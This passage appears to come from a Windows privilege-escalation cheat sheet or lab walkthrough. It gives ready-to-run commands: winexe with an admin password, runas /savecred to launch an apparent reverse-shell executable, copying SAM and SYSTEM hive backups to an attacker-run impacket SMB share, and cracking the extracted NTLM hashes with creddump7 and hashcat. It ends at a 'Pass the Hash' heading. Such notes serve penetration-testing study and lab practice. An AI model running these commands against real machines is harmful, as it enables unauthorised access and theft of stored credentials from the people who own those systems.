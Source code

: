 ```powershell
winexe -U 'admin%password' //10.10.93.139 cmd.exe
```

### Saved Creds

> Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement.


To list the vaults

```powershell
cmdkey /list
``` 

To run command as another user

```powershell
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Security Account Manager


> Windows stores password hashes in the Security Account Manager (SAM). The hashes are encrypted with a key which can be found in a file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes

> The SAM and SYSTEM files are located in the C:\Windows\System32\config directory.
The files are locked while Windows is running.
Backups of the files may exist in the `C:\Windows\Repair` or `C:\Windows\System32\config\RegBack` directories


Start the SAMBA listener in your machine

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

Copy the SAM files

```powershell
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

Crack the SAM files

```bash
git clone https://github.com/Neohapsis/creddump7.git
python2 creddump7/pwdump.py SYSTEM SAM

hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

### Pass the Hash
